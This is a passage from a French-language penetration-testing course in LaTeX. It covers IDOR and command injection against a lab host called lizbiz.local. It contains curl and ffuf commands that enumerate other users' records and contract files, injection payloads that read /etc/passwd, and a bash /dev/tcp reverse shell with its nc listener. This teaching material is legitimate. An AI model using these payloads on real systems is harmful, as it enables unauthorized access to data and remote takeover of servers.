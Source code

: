 \subsection{IDOR (\textit{Insecure Direct Object Reference})}
\label{subsec:idor}

\begin{boxdef}
\textbf{IDOR :} Accès direct à des ressources via un identifiant prévisible
(ID, numéro de commande, nom de fichier) sans vérification des autorisations —
permet d'accéder aux données d'autres utilisateurs. \textbf{MITRE T1078.}
\end{boxdef}

\begin{lstlisting}[language=bash, caption={IDOR, accès aux données d'autres utilisateurs}]
# L'utilisateur connecté voit sa fiche : /api/users/42
# En modifiant l'ID, il accède aux fiches d'autres utilisateurs
curl -H "Cookie: session=xxx" http://lizbiz.local/api/users/1
curl -H "Cookie: session=xxx" http://lizbiz.local/api/users/2
# ...

# IDOR sur des fichiers (documents contractuels)
http://lizbiz.local/download?file=contrat_client_42.pdf
http://lizbiz.local/download?file=contrat_client_43.pdf

# Automatisation avec Burp Suite Intruder ou ffuf
ffuf -u http://lizbiz.local/api/users/FUZZ \
     -H "Cookie: session=xxx" \
     -w <(seq 1 1000) \
     -mc 200 -o idor_results.txt
\end{lstlisting}

\subsection{Command Injection}
\label{subsec:cmd_injection}

Exécution de commandes système via une entrée utilisateur non nettoyée —
typiquement dans des fonctionnalités utilisant des fonctions système
(\texttt{system()}, \texttt{exec()}, \texttt{popen()} en PHP).

\begin{lstlisting}[language=bash, caption={Command Injection, détection et exploitation}]
# Fonctionnalité vulnérable : ping d'une IP fournie par l'utilisateur
# Entrée normale : 192.168.1.1
# Le serveur exécute : ping -c 4 192.168.1.1

# Injection avec séparateur de commandes
127.0.0.1 ; id               # Exécute id après ping
127.0.0.1 && whoami          # Exécute si ping réussit
127.0.0.1 | cat /etc/passwd  # Pipe vers cat
127.0.0.1 `id`               # Substitution de commande (backtick)

# Reverse shell via command injection
127.0.0.1; bash -i >& /dev/tcp/10.10.10.100/4444 0>&1

# Écoute du côté attaquant
nc -lvnp 4444
\end{lstlisting}


